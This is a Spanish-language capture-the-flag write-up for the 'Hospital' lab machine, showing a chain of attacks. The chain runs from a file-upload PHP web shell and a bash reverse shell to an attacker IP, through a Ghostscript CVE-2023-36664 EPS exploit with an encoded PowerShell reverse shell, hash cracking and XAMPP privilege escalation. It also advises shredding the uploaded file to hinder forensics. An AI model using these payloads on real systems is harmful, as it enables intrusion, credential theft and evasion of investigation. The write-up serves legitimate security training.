



# Hospital

`Hospital` es una máquina Windows de dificultad media que aloja un entorno de Active Directory, un servidor web y una instancia de `RoundCube`. La aplicación web tiene una vulnerabilidad de carga de archivos que permite la ejecución de código PHP arbitrario, lo que lleva a un shell inverso en la máquina virtual Linux que aloja el servicio. La enumeración del sistema revela un kernel Linux obsoleto que se puede explotar para obtener privilegios de root, a través de `[CVE-2023-35001](https://nvd.nist.gov/vuln/detail/CVE-2023-35001)`.

El acceso privilegiado permite leer los hashes de `/etc/shadow` y, posteriormente, descifrarlos, lo que genera credenciales para la instancia de `RoundCube`. Los correos electrónicos sobre el servicio sugieren el uso de «GhostScript», que expone el objetivo a la explotación a través de «[CVE-2023-36664](https://nvd.nist.gov/vuln/detail/CVE-2023-36664)», una vulnerabilidad que se explota creando un archivo Embedded PostScript (EPS) malicioso para lograr la ejecución remota de código en el host de Windows. El acceso al sistema se obtiene de dos formas: utilizando un keylogger para capturar las credenciales de «administrador» o abusando de los permisos «XAMPP» mal configurados.

<figure><figcaption></figcaption></figure>

## Reconnaissance

Realizaremos un reconocimiento con **nmap** para ver los puertos que están expuestos en la máquina Hospital.


```bash
nmap -p- --open -sS --min-rate 5000 -vvv -Pn -n 10.10.11.241 -oG allPorts
```


<figure><figcaption></figcaption></figure>

Lanzaremos una serie de scripts básicos para intentar buscar vulnerabilidades en los puertos que hemos encotrado expuestos.


```bash
nmap -sCV -p22,53,88,135,139,389,443,445,464,593,636,1801,2103,2105,2107,2179,3268,3269,3389,5985,6055,6404,6406,6407,6409,6613,6637,8080,9389 10.10.11.241 -A -oN targeted
```


<figure><figcaption></figcaption></figure>

Comprobaremos el nombre del dominio con el cual nos enfrentamos a través del siguiente comando.

Verificaremos también a qué tipo de máquina nos enfrentamos a través de **netexec**.

```bash
ldapsearch -x -H ldap://10.10.11.241 -s base | grep defaultNamingContext

netexec smb 10.10.11.241
```

<figure><figcaption></figcaption></figure>

Procederemos a añadir la entrada en nuestro archivo **/etc/hosts**

```bash
catnp /etc/hosts | grep hospital.htb
```

<figure><figcaption></figcaption></figure>

## Web sites

Procederemos a comprobar el sitio web que está con SSL (puerto 443) -[ https://hospital.htb](https://hospital.htb)

Comprobamos que se trata de un gestor de correos llamado RoundCube, pero no disponemos de credenciales válidas para acceder.

<figure><figcaption></figcaption></figure>

También hemos visto expuesto el puerto 8080 de un sitio web, en este caso nos aparece la siguiente interfaz para iniciar sesión y registrarnos también.

<figure><figcaption></figcaption></figure>

Procederemos a registrarnos con una cuenta falsa.

<figure><figcaption></figcaption></figure>

Procederemos a iniciar sesión con estas nuevas credenciales que hemos registrado.

<figure><figcaption></figcaption></figure>

### Abusing File Upload (.phar extension + Python Scripting)

El sitio web permite subir archivos, por lo tanto, como también habíamos comprobado que la página interpreta PHP, procederemos a testear a ver si podemos subir un archivo PHP y que interprete el código que le inyectemos.

Crearemos un archivo básico que imprima un "hola".

<figure><figcaption></figcaption></figure>

Interceptaremos la solicitud a través de **BurpSuite** y **FoxyProxy**.

<figure><figcaption></figcaption></figure>

Des de **BurpSuite** comprobaremos que si enviamosla solicitud hace un redirect a una página nombrada "failed.php". Esto parece indicar de que la extensión del archivo no le está gustando y no podemos subir un archivo con extensión PHP

<figure><figcaption></figcaption></figure>

Probaremosde comprobar si con otra extensión que igualmente interprete PHP podemos hacer que el archivo sea subido.

Disponemos de este listado de extensiones PHP que pueden ser interpretadas.


```bash
echo '.php, .php2, .php3, .php4, .php5, .php6, .php7, .phps, .phps, .pht, .phtm, .phtml, .pgif, .shtml, .htaccess, .phar, .inc, .hphp, .ctp, .module' | tr ',' '\n' | sed 's/\.//g'| sed 's/ //g' > extensions

catnp extensions
```


<figure><figcaption></figcaption></figure>

En **BurpSuite** pasaremos la solicitud al modo **Intruder** e indicaremos que la extensión "php" sea donde cargaremos el payload. El ataque será de tipo "Sniper"

<figure><figcaption></figcaption></figure>

Cargaremos el listado del payload que queremos establecer de las extensiones PHP

<figure><figcaption></figcaption></figure>

Indicaremos que extraiga el campo de "Location" que es donde nos aparaecía lo de "failed.php".

<figure><figcaption></figcaption></figure>

Lanzaremos el ataque y comprobaremos que existen unas extensiones que si se ha podido subir el archivo sin problemas.

<figure><figcaption></figcaption></figure>

Por otra parte, deberemos de comprobar en que ruta se suben estos archivos, ya que en la solicitud y respuesta no tenemos ninguna pista.

Para ello, utilizaremos **gobuster** para enumerar directorios del sitio web. Nos encontramos que hay un directorio llamado "uploads".


```bash
gobuster dir -u http://hospital.htb:8080/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
```


<figure><figcaption></figcaption></figure>

Otra de las maneras para comprobar el tema de qué extensión nos permite subir a la página web, es haciendo un script en Python3 que realize las mismas acciones que **BurpSuite**.

Este script probará de subir al sitio web archivos con las extensiones que le hayamos indicado y comprobará si se puede subir o no.


```python
#!/usr/bin/env python3

import requests
import pdb 
import signal
import sys

from termcolor import colored
from pwn import *

def def_handler(sig, frame):
    print(colored(f"\n\n[!] Saliendo...\n", 'red'))
    sys.exit(1)

# Ctrl + C
signal.signal(signal.SIGINT, def_handler)

upload_url = "http://hospital.htb:8080/upload.php"
cookies = {'PHPSESSID': '5sa6q4ch85r5beag9vuneh55gk'}
extensions = [".php", ".php2", ".php3", ".php4", ".php5", ".php6", ".php7", ".phps", ".phps", ".pht", ".phtm", ".phtml", ".pgif", ".shtml", ".htaccess", ".phar", ".inc", ".hphp", ".ctp", ".module"]


def fileUpload():

    f = open("test.php", "r")
    fileContent = f.read()

    p1 = log.progress("Fuerza bruta")
    p1.status("Iniciando proceso de fuerza bruta")

    time.sleep(2)

    for extension in extensions:
        p1.status(f"Probando con la extensión {extension}")
        fileToUpload = {'image': (f"test{extension}", fileContent.strip())}

        r = requests.post(upload_url, cookies=cookies, files=fileToUpload, allow_redirects=False)

        if "failed" not in r.headers["Location"]:
            log.info(f"Extensión {extension}: {r.headers['Location']}")

if __name__ == '__main__':

    fileUpload()
```


Procederemos de ejecutar el script y comprobaremos de las extensiones que se puden subir sin problemas.

```bash
python3 fileUpload.py
```

<figure><figcaption></figcaption></figure>

Iremos probando extensiones, algunas de las nos permitía subir el archivo no nos interpretaba el código PHP del archivo.&#x20;

La extensíón **.phar** nos interpreta correctamente el código PHP de nuestro archivo subido. Por lo tanto, disponemos de una vía potencial para intentar conseguir un RCE.

<figure><figcaption></figcaption></figure>

Crearemos otro Script para que se encargue de subir únicamente el archivo que tenemos "test.php" y se suba como "test.phar", así nos ahorraremos ir subiendo manualmente cada vez el archivo cada vez que modifiquemos el archivo.

Ya que a partir de ahora, modificaremos "test.php" y ejecutaremos el script y será subido al sitio web..


```python
#!/usr/bin/env python3

import requests
import pdb 
import signal
import sys

from termcolor import colored
from pwn import *

def def_handler(sig, frame):
    print(colored(f"\n\n[!] Saliendo...\n", 'red'))
    sys.exit(1)

# Ctrl + C
signal.signal(signal.SIGINT, def_handler)

upload_url = "http://hospital.htb:8080/upload.php"
cookies = {'PHPSESSID': '5sa6q4ch85r5beag9vuneh55gk'}
burp = {'http': 'http://127.0.0.1:8080'}

def fileUpload():

    f = open("test.php", "r")
    fileContent = f.read()

    fileToUpload = {'image': (f"test.phar", fileContent.strip())}

    r = requests.post(upload_url, cookies=cookies, files=fileToUpload, allow_redirects=False)

    log.info("Archivo subido exitosamente")

if __name__ == '__main__':

    fileUpload()
```


Modificaremos el contenido de "test.php" y lanzaremos el script.

<figure><figcaption></figcaption></figure>

De esta manera, comprobaremos que se sube correctamente el archivo a través del script de Python.

<figure><figcaption></figcaption></figure>

Modificaremos el archivo "test.php" para tener una ejecución de comandos a través de **shell\_exec** y pasarle nosotros el comando a ejecutar a través de la variable "cmd".

Subiremos el archivo con el script "pharUpload.py".


```php
<?php
    echo "<pre" . shell_exec($_GET['cmd']) . "</pre>";
?>
```


<figure><figcaption></figcaption></figure>

Comprobaremos que nos funciona el script, esto nos puede indicar que es posible que algunas funciones PHP estén deshabilitadas por seguridad.

<figure><figcaption></figcaption></figure>

### Abusing PHP Disable Functions in order to RCE

Para comprobar que funciones PHP se encuentran deshabilitadas a través de **phpinfo().**

Procederemos a subir el archivo nuevamente.

```php
<?php
    phpinfo();
?>
```

<figure><figcaption></figcaption></figure>


Volveremos a acceder a la ruta donde tenemos subido el archivo test.phar y comprobaremos las funcioens que se encuentran deshabilitadas.

<figure><figcaption></figcaption></figure>

Procederemos a realizar un script que compruebe si de las funciones que nos permiten la ejecución de comandos - [PHP Dangerous Functions](https://gist.github.com/mccabe615/b0907514d34b2de088c4996933ea1720).

Si la función se encuentra habilitada, nos aparecerá el nombre de la función y la palabra "Pwn3d". Subiremos este nuevo archivo a través de **pharUpload.py**.


```php
<?php
    $dangerous_functions = array("exec", "passthru", "system", "shell_exec", "popen", "propen", "proc_open", "pcntl_exec");
    
    foreach ($dangerous_functions as $f){
        if (function_exists($f)){
            echo "\n[+] " . $f . " - Pwn3d";
        }
    }
?>
```


<figure><figcaption></figcaption></figure>

Comprobaremos que disponemos de la función **popen** habilitada, por lo cual, ya tenemos una vía potencial para realizar ejecuciones de comandos a través de esta peligrosa función PHP, para así obtener un RCE.

<figure><figcaption></figcaption></figure>

Modificaremos nuevamente el script "test.php" y a través de la función PHP nombrada **"popen**" procederemos a realizar que se ejecute el comando "whoami". Subiremos nuevamente nuestro archivo.

```php
<?php
  echo fread(popen("whoami", "r"), 10000);
?>
```

<figure><figcaption></figcaption></figure>

Comprobamos que se ha ejecutado correctamente el comando "whoami". Por lo tanto a través de esta función PHP, podemos llegar a obtener un RCE.

<figure><figcaption></figcaption></figure>

Modificaremos el archivo "test.php" para indicar que a través de esta función PHP y la variable "cmd", des de la URL nosotros podamos indicarle el comando a ejecutar, para así no tener que ir modificando el archivo por cada comando que queramos ejecutar.

Subiremos nuestro archivo nuevamente.

```php
<?php
  echo fread(popen($_GET['cmd'], "r"), 10000);
?>
```

<figure><figcaption></figcaption></figure>

Nos pondremos en escucha con **nc** por el puerto 443.

<figure><figcaption></figcaption></figure>

Le pasaremos el comando para obtener una Reverse Shell des de la variable "cmd" de nuestro archivo subido "test.phar".


```url
http://hospital.htb:8080/uploads/test.phar?cmd=bash -c "bash -i >%26 /dev/tcp/10.10.14.13/443 0>%261"
```


## GamerOver(lay) Exploitation (Privelege Escalation)

Comprobamos que ganamos acceso a la máquina que utiliza el sitio web.

Nos encontramos en una máquina Linux, que parece ser una submáquina del dominio principal, nuestro objetivo será llegar a comprometer el Domain Controller.

Procederemos a través de **shred** de eliminar el archivo subido "test.phar" para eliminar las pruebas y así dificultar las labores forienses en la recuperación de ese archivo que nos podría incriminar.

<figure><figcaption></figcaption></figure>

Comprobaremos que usuarios diponen de una bash, para así intentar escalar al usuario, ya que somos actualmente "www-data".

<figure><figcaption></figcaption></figure>

Revisando los archivos que se encuentran en /var/www/html nos encontramos un archivo nombrado "config.php" que almacena las credenciales del administrador de la BBDD.

<figure><figcaption></figcaption></figure>

Procederemos a conectarnos a MySQL con las credenciales encontradas.

<figure><figcaption></figcaption></figure>

Revisaremos las tablas y los datos que hay almacenados en la BBDD, y nos encontramos con usuarios y contraseñas hashaedas.

Pero estos usuarios son los que se crean en http://hospital.htb:8080/ al registrarse. Si intentamos crackear las contraseñas no nos servirá para absolutamente nada, por lo tanto descartamos este punto.

<figure><figcaption></figcaption></figure>

Comprobaremos la información sobre la distribución del sistema operativo y los detalles del Kernel y del sistema operativo.

<figure><figcaption></figcaption></figure>

Revisando exploits, nos encontramos el siguiente [CVE-2023-2640](https://github.com/g1vi/CVE-2023-2640-CVE-2023-32629/blob/main/exploit.sh) que nos permite escalar de privilegios al usuario "root" con la ejecución del exploit.

Comprobamos que hemos podido escalar de privilegios de **www-data** a **root**.

<figure><figcaption></figcaption></figure>

## Cracking Hashes

Como usuario **root** procederemos a comprobar el archivo /etc/shadow para comprobar los hashes del usuario "root" y del usuario "drwilliams" que son los únicos que disponen de una Bash.

```bash
cat /etc/shadow | grep -E '^root|^drwi'
```

<figure><figcaption></figcaption></figure>

Procederemos con **hashcat** de crackear los hashes y encontramos la contraseña del usuario "drwilliams".

```bash
hashes -a -o hashes /usr/share/wordlists/rockyou.txt
```

<figure><figcaption></figcaption></figure>

## AD Enumeration

Podemos comprobar con **netexec** si las credenciales encontradas son válidas para el dominio.

```bash
netexec smb 10.10.11.241 -u 'drwilliams' -p 'qwe123!@#'
```

### Enumerating domain users (RPCEnum)

Ya que disponemos de credenciales válidas, procederemos a enumerar con **rpcenum** los usuarios válidos del dominio y toda la información importante del dominio.

<figure><figcaption></figcaption></figure>

### AS-REP Roasting Attack && Kerberoasting Attack - \[FAILED]

Ya que disponemos de una lista de usuarios del dominio y unas credenciales válidas de dominio, procedremos a intentar realizar un **AS-REP Roasting Attack** y **Kerberoasting Attack** pero no obtenemos el Ticket Granting Ticket (TGT) ni el Ticket Granting Service (TGS).

```bash
impacket-GetNPUsers -no-pass -usersfile users.txt hospital.htb/ 2>/dev/null

impacket-GetUserSPNs -dc-ip 10.10.11.241 hospital.htb/drwilliams -request
```

<figure><figcaption></figcaption></figure>

## Initial Access

### Fraudiling sending of EPS file by mail through RoundCube

Procederemos a acceder a [https://hospital.htb](https://hospital.htb) y comprobaremos que nos encontramos con la página que habíamos enumerado al principio.

Verificaremos de acceder con las nuevas credenciales obtenidas del usuario "drwilliams".

<figure><figcaption></figcaption></figure>

Comprobamos que hemos obtenido el acceso al RoundCube con este usuario.

Verificamos que tenemos un correo de "drbrown@hospital.htb" en el cual nos pide que le envíemos un archivo [.EPS](https://www.adobe.com/es/creativecloud/file-types/image/vector/eps-file.html) para que él lo pueda visualizar con [GhostScript](https://es.wikipedia.org/wiki/Ghostscript).

<figure><figcaption></figcaption></figure>

Buscaremos a ver si encontramos algún método de inyectar código malicioso en un archivo .EPS para que sea visualizado en GhostScript.

Encontramos el siguiente repositorio [GhostScruot Command Injection](https://github.com/jakabakos/CVE-2023-36664-Ghostscript-command-injection) en el cual nos indica que podemos inyectar un payload dentro de un archivo .EPS para que cuando sea abierto por GhostScript, sea ejecutado correctamente.

Nos descargaremos el repositorio, y crearemos el payload en formato EPS. El comando que queremos que ejecute es una Reverse Shell en PowerShell encodeado en Base64 des de [https://revshells.com](https://revshells.com)&#x20;

Comprobaremos el archivo malicioso .EPS que nos ha creado.


```bash
git clone https://github.com/jakabakos/CVE-2023-36664-Ghostscript-command-injection

cd CVE-2023-36664-Ghostscript-command-injection

python3 CVE_2023_36664_exploit.py --payload "powershell -e JABjAGwAaQBlAG4AdAAgAD0AIABOAGUAdwAtAE8AYgBqAGUAYwB0ACAAUwB5AHMAdABlAG0ALgBOAGUAdAAuAFMAbwBjAGsAZQB0AHMALgBUAEMAUABDAGwAaQBlAG4AdAAoACIAMQAwAC4AMQAwAC4AMQA0AC4AMQA0ACIALAA0ADQAMwApADsAJABzAHQAcgBlAGEAbQAgAD0AIAAkAGMAbABpAGUAbgB0AC4ARwBlAHQAUwB0AHIAZQBhAG0AKAApADsAWwBiAHkAdABlAFsAXQBdACQAYgB5AHQAZQBzACAAPQAgADAALgAuADYANQA1ADMANQB8ACUAewAwAH0AOwB3AGgAaQBsAGUAKAAoACQAaQAgAD0AIAAkAHMAdAByAGUAYQBtAC4AUgBlAGEAZAAoACQAYgB5AHQAZQBzACwAIAAwACwAIAAkAGIAeQB0AGUAcwAuAEwAZQBuAGcAdABoACkAKQAgAC0AbgBlACAAMAApAHsAOwAkAGQAYQB0AGEAIAA9ACAAKABOAGUAdwAtAE8AYgBqAGUAYwB0ACAALQBUAHkAcABlAE4AYQBtAGUAIABTAHkAcwB0AGUAbQAuAFQAZQB4AHQALgBBAFMAQwBJAEkARQBuAGMAbwBkAGkAbgBnACkALgBHAGUAdABTAHQAcgBpAG4AZwAoACQAYgB5AHQAZQBzACwAMAAsACAAJABpACkAOwAkAHMAZQBuAGQAYgBhAGMAawAgAD0AIAAoAGkAZQB4ACAAJABkAGEAdABhACAAMgA+ACYAMQAgAHwAIABPAHUAdAAtAFMAdAByAGkAbgBnACAAKQA7ACQAcwBlAG4AZABiAGEAYwBrADIAIAA9ACAAJABzAGUAbgBkAGIAYQBjAGsAIAArACAAIgBQAFMAIAAiACAAKwAgACgAcAB3AGQAKQAuAFAAYQB0AGgAIAArACAAIgA+ACAAIgA7ACQAcwBlAG4AZABiAHkAdABlACAAPQAgACgAWwB0AGUAeAB0AC4AZQBuAGMAbwBkAGkAbgBnAF0AOgA6AEEAUwBDAEkASQApAC4ARwBlAHQAQgB5AHQAZQBzACgAJABzAGUAbgBkAGIAYQBjAGsAMgApADsAJABzAHQAcgBlAGEAbQAuAFcAcgBpAHQAZQAoACQAcwBlAG4AZABiAHkAdABlACwAMAAsACQAcwBlAG4AZABiAHkAdABlAC4ATABlAG4AZwB0AGgAKQA7ACQAcwB0AHIAZQBhAG0ALgBGAGwAdQBzAGgAKAApAH0AOwAkAGMAbABpAGUAbgB0AC4AQwBsAG8AcwBlACgAKQA=" -g -x eps

catnp malicious.eps
```


<figure><figcaption></figcaption></figure>

Responderemos al correo de drbrown@hospital.htb y le pasaremos el archivo malicioso .EPS que hemos generado con el payload.

<figure><figcaption></figcaption></figure>

Nos pondremos en escucha con **nc** por el puerto que hemos establecido en la Reverse Shell y comprobamos que al parecer el usuario "drbrown" ha ejecutado el archivo que pare él pensaba que era legítimo pero dentro escondía un payload para otorgarnos una Reverse Shell.

Hemos obtenido una shell de PS.

<figure><figcaption></figcaption></figure>

Ya que tenemos acceso a la terminal, nos otorgaremos una Shell especial para Linux para tener mejor visualización.

Para ello, nos pasaremos el binario de **nc.exe** y nos lo descargaremos en Windows con **certutil.exe.**

<figure><figcaption></figcaption></figure>

Nos pondremos en escucha nuevamente por el puerto 443, y des de Windows, procederemos a través de nc.exe de enviarnos una Reverse Shell. Comprobaremos el acceso correctamente.

<figure><figcaption></figcaption></figure>

## Privilege Escalation

### Abusing XAMPP for Privilege Escalation

Comprobaremos que hay uan carpeta XAMPP en el equipo.

<figure><figcaption></figcaption></figure>

Comprobaremos el contenido de **index.php** y nos damos cuenta que este XAMPP levanta el servicio de **RoundCube**.

<figure><figcaption></figcaption></figure>

Comprobaremos los permisos que disponemos sobre la carpeta "htdocs" que es el repositorio donde XAMPP almacena las páginas web.

En este caso, comprobamos que el grupo "Users" dispone de permsios de lectura y ejecución. Esto puede ser peligroso debido que dependiendo quien levante el servicio de XAMPP, es posible ganar acceso como el usuario Administrator o hacer pivoting a otro usuario.

Imaginemos que el usuario que levanta el servicio es "Administrator" y logramos subir un archivo PHP que podamos hacer un RCE, el servidor web ejecutará ese archivo PHP como el usuario "Administrator", por lo tanto podríamos llegar a ejecutar comandos como dicho usuario.

<figure><figcaption></figcaption></figure>

Crearemos un archivo de prueba llamado "cmd.php" en el cual contiene la función **shell\_exec** que permite la ejecución de comandos y que ejecute el comando que se pase por la variable "cmd".

Nos la pasaremos con un servidor web y nos lo descargaremos con **certutil.exe**.

<figure><figcaption></figcaption></figure>

Comprobaremos de realizar una ejecución de comandos a través de la variable del archivo subido y comprobamos que el comando "whoami" nos devuelve que el usuario que ejecuta ese archivo es "NT Authority\System", por lo tanto es el usuario Administrator.

<figure><figcaption></figcaption></figure>

Des de otra terminal nos pondremos en escucha **nc** y des de la URL haremos que se ejecute el comando para otorgarnos una Reverse Shell. Utilizaremos el binario de "nc.exe" que habíamos descargado anteriormente.

<figure><figcaption></figcaption></figure>

Comprobaremos que ganamos acceso al equipo como usuario "NT Authority\System" y visualizamos la flag de **root.txt**.

<figure><figcaption></figcaption></figure>
